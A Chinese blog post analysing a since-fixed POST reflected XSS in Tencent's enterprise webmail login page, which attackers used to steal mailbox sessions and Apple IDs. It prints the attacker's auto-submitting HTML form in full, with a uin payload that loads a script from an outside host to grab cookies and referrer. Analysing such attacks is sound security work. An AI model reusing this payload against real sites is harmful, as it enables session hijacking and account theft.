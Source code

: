 ```yaml
---
layout: post
title: 腾讯企业邮箱跨站漏洞分析
---
```

中午朋友发来一个帖子询问我《[朋友 6S 被偷了，小偷（可能是团伙）发来链接偷取 APPLE ID](http://v2ex.com/t/232901)》是什么原理，之后和 RickGay 看了下是利用腾讯企业邮箱的 POST XSS 进行的盗取登录操作，从而登录受害者邮箱获取 APPLE ID。（目前腾讯已经修复此漏洞）

Target: http://eeee.washbowl.com.cn/

View-source:
![http://ww1.sinaimg.cn/large/c334041bgw1exmoyt2y2jj20hw07pgmj.jpg](http://ww1.sinaimg.cn/large/c334041bgw1exmoyt2y2jj20hw07pgmj.jpg)

网页嵌入两个 iframe ，重点在 /htmlpage5.html:    <html>
    <head>
        <meta charset="utf-8" />
        <title>qqjs4</title>
    </head>
    <body>
        <script>
            function test(PARAMS) {
                var temp = document.createElement("form");
                temp.acceptCharset = "utf-8";
                //By Wfox
                temp.action = 'http://m.exmail.qq.com/cgi-bin/login';
                temp.method = "post";
                temp.style.display = "none";
                for (var x in PARAMS) {
                    var opt = document.createElement("textarea");
                    opt.name = x;
                    opt.value = PARAMS[x];
                    temp.appendChild(opt);
                }
                document.body.appendChild(temp);
                temp.submit();
            }
            test({
                uin: '\\&quot;&lt;/script&gt;&lt;script src=http://ryige.com/q/8&gt;&lt;/script&gt;',
            });
        </script>
    </body>
    </html>

脚本向腾讯企业邮箱登录页面提交 XSS Payload ：

    \\&quot;&lt;/script&gt;&lt;script src=http://ryige.com/q/8&gt;&lt;/script&gt;
    
这个 POST 反射型 XSS 是由于企业邮箱登录报错未做过滤处理导致：

![http://ww4.sinaimg.cn/large/c334041bgw1exmp6f5hf5j20ug0bo76s.jpg](http://ww4.sinaimg.cn/large/c334041bgw1exmp6f5hf5j20ug0bo76s.jpg)

参数 uin ，攻击者注入 http://ryige.com/q/8 脚本：

![http://ww4.sinaimg.cn/large/c334041bgw1exmp3dzgknj20w40a4wgh.jpg](http://ww4.sinaimg.cn/large/c334041bgw1exmp3dzgknj20w40a4wgh.jpg)

Payload 将获取企业邮箱的 document.cookie & document.referrer 。

> 注：因腾讯企业邮箱不仅仅需要 Cookie 还需要登录成功后 URL sid 等信息；